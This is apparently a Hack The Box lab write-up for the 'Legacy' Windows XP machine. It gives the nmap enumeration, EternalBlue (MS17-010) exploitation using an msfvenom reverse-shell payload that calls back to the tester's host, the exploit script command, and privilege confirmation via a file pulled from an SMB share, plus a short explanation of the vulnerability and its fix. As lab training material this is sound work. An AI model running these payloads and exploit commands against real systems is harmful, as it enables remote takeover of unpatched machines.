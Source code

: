 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:

![smb_scan](images/legacy/smb_vuln_scan.png)

**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

**Vulnerability Explanation:**\
The EternalBlue exploit works by taking advantage of SMBv1 vulnerabilities present in older versions of
Microsoft operating systems.\
The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted
packets from malicious attackers. All the attacker needs to do is send a maliciously-crafted packet to the
target server, and the malware propagates and a cyberattack ensues.\
**Vulnerability Fix:**\
Microsoft has released a set of patches for Windows Vista, 2008, 7, 2008 R2, 2012, 8.1, RT 8.1, 2012 R2,
10, and 2016. Microsoft has also released emergency patches for Windows operating systems that are no
longer supported, including Windows XP, 2003, and 8.\
In this scenario, the machine uses Windows XP, and for unsupported Windows operating systems, e.g.
Windows XP, Microsoft recommends that users discontinue the use of SMBv1.

**Initial Shell Screenshot:**\
<img src="images/legacy/initialshell.png" alt="initial_shell_poc" width="500" height="150"/> </br> 

<!--Privilege Escalation:-->

#Privilege Escalation:\
After getting access to the machine, I could not run the 'whoami' command, I tried using 'echo &username%' instead, but it didn't work.\
To solve it, I transferred the 'whoami' command from my Kali Linux to the target machine.\
the 'whoami.exe' binary in Kali is located in this directory: /usr/share/windows-resources/binaries/
\
In order to transfer this binary, I created a smb share:
```bash
smbserver.py a /usr/share/windows-resources/binaries/ 
```
And downloaded the file in the target machine:
```bash
copy '\\\10.10.14.39\a\whoami.exe'
```
Ran the binary, as saw that I have NT AUTHORITY/SYSTEM privileges.\
Proof Screenshot here: </br>
![priv_esc_poc](images/legacy/privesc_poc.png)